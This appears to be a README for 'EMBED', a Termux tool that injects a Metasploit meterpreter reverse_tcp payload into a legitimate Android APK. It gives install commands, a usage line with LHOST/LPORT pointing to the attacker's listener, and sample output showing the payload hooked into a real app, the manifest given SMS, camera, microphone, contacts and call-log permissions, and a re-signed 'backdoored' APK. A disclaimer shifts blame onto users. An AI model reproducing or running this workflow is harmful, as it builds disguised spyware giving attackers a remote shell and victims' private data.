 # EMBED v.2.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Zipalign

# INSTALLATION.
Give execute permissions to the configuration file setup:

	$  chmod +x setup

Now run the setup file:

	$  bash setup

This file will install and configure Termux with all the required libraries and dependencies including java for termux.


# JAVA FOR TERMUX

	https://github.com/ivam3/java

This software and related documentation are provided under license agreement containing in www.java.com. Please refer to http://java.com/licensereadme.

# USAGE

	$ ruby EMBED.rb PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

	   ._____ __  __ ____  _____ ____
	   | ____|  \/  | __ )| ____|  _ \
	   |  _| |TERMUX|  _ \|  _| | | | |
	   | |___| |\/| | |_) | |___| |_| |
	   |_____|_|  |_|____/|_____|____/ v.2
	   #:::::::: By Ivam3 ::::::::::::#

	[*]─➤ Generating msfvenom payload..
	[*]─➤ Signing payload..
	[*]─➤ Decompiling orignal APK..
	[*]─➤ Ignoring the resource decompilation..
	[*]─➤ Decompiling payload APK..
	[*]─➤ Locating onCreate() hook..
	[*]─➤ Copying payload files..
	[*]─➤ Loading original/smali/devian/tubemate/home/Main.smali and injecting payload..
	[*]─➤ Poisoning the manifest with meterpreter permissions..
	[+]─➤ Adding android.permission.SEND_SMS
	[+]─➤ Adding android.permission.RECEIVE_SMS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CALL_PHONE
	[+]─➤ Adding android.permission.READ_CONTACTS
	[+]─➤ Adding android.permission.WRITE_CONTACTS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CAMERA
	[+]─➤ Adding android.permission.READ_SMS
	[+]─➤ Adding android.permission.RECEIVE_BOOT_COMPLETED
	[+]─➤ Adding android.permission.SET_WALLPAPER
	[+]─➤ Adding android.permission.READ_CALL_LOG
	[+]─➤ Adding android.permission.WRITE_CALL_LOG
	[*]─➤ Rebuilding /sdcard/Download/tubemate-2-4-21.apk with meterpreter injection as data/data/com_backdoored.apk..
	[*]─➤ Signing data/data/com_backdoored.apk ..
	[*]─➤ Aligning data/data/com_backdoored.apk ..
	[+]─➤ Infected file legitim.apk_final ready.


This tool was written by Ivam3, <https://t.me/Ivam3byCinderella>
Some maintenance releases have been done by <https://t.me/Ivam3_Bot>

